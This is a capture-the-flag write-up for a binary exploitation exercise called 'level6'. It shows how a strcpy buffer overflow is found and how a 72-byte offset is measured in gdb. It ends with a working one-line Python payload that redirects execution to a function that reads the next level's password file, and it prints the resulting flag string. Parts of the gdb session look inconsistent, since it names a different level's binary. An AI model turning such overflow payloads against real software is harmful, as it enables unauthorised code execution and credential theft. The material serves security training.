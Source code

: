 We started by running the program without any arguments and encountered a segmentation fault:
```
$ ./level6
Segmentation fault (core dumped)
```
Next, we ran the program with a test argument, which resulted in a standard response:
```
$ ./level6 Heloooo
Nope
```
We ran the program a 3rd time r with a longer argument, which again resulted in a segmentation fault:
```
$ ./level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
Disassembling the `main` function revealed a call to `strcpy` with the provided argument. The `strcpy` function is notorious for being vulnerable to buffer overflow attacks due to its lack of bounds checking.

From the `strcpy` man page:
>The strcpy() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality through a buffer overflow attack.

 Additionally, we discovered an unused function called `n()`:
 ```
 (gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
```
Upon disassembling the `n()` function, we found that it calls the `system` function with the argument "/bin/cat /home/user/level7/.pass":
```
0x08048454 <+0>:    call   0x80483b0 <system@plt>
```
This gives us a clear path to exploit the program by redirecting the program flow to the `n()` function.

We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
$ gdb ./level6
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()

```
We find that the buffer size is 72

We crafted the payload to overflow the buffer and overwrite the return address with the address of the `n()` function (`0x08048454`), using little-endian format. The payload consists of 72 'A' characters followed by the address of `n()`.
```
$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
